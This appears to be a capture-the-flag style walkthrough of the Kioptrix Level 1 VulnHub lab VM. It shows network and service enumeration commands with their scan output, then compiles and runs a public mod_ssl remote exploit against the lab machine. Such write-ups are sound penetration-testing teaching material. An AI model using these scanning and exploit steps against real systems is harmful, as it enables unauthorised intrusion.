 # Walkthrough: [Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

## Table of Contents

- [Enumeration](#enumeration)
- [Penetration & Privilege Escelation](#penetration--privilege-escelation)
- [Bonus](#bonus)
	- [Bruteforce](#brute-force)
	- [Intresting Files](#intresting-files)

## Enumeration
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14`
  
- VM info: `nmap -A -T4 -v 192.168.0.14`

  * <pre>
    22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
    80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
    111/tcp  open  rpcbind     2 (RPC #100000)
    139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
    443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
    1024/tcp open  status      1 (RPC #100024)
    </pre>
    
- Web Server Directory: `dirb -w http://192.168.0.14`

	* Default apache pages/settings.  
  
- Web Server Vurnerabilities: `nikto -h 192.168.0.14`

  * <pre>
    OSVDB-637: Enumeration of users is possible by requesting ~username (responds with 'Forbidden' for users, 'not found' for non-existent users).
    OSVDB-756.mod_ssl/2.8.4, CVE-2002-0082: mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell (difficult to exploit).
    OSVDB-3092: Files found:/test.php
    </pre>
  * [/test.php link](#intresting-files)
    
- Samba info:

  * `smbclient -L 192.168.0.14` **<--- Anon login available**  
  
    <pre>
    IPC$            IPC       IPC Service (Samba Server)
    ADMIN$          IPC       IPC Service (Samba Server)

    Server               Comment
    ---------            -------
    ANTON                Anton server (Samba, Ubuntu)
    KIOPTRIX             Samba Server
    
    Workgroup            Master
    ---------            -------
    MYGROUP              ANTON
    </pre>
  * `enum4linux4 -a -v 192.168.0.14`

- NetBIOS info: `sudo nbtscan -v 192.168.0.14`
  
  * <pre>
    NetBIOS Name Table for Host 192.168.0.14:

    Incomplete packet, 191 bytes long.
    Name             Service          Type             
    ----------------------------------------
    KIOPTRIX         <00>             UNIQUE
    KIOPTRIX         <03>             UNIQUE
    KIOPTRIX         <20>             UNIQUE
    MYGROUP          <00>              GROUP
    MYGROUP          <1e>              GROUP

    Adapter address: 00:00:00:00:00:00
    </pre>

## Penetration & Privilege Escelation
- Nikto revealed a [ssl vurnerability](https://www.exploit-db.com/exploits/47080)
	* Download and compile the exploit:   
	`cd ~/Downloads/ && sudo apt-get install libssl-dev && gcc -o OpenFuck 47080.c -lcrypto`
	* Run the exploit: `./OpenFuck 0x6b 192.168.0.14 443`
---

## Bonus

### Brute Force

### Intresting Files
- /test.php:
  ```
  <?php4

    print "TEST";

  ?>
  ```
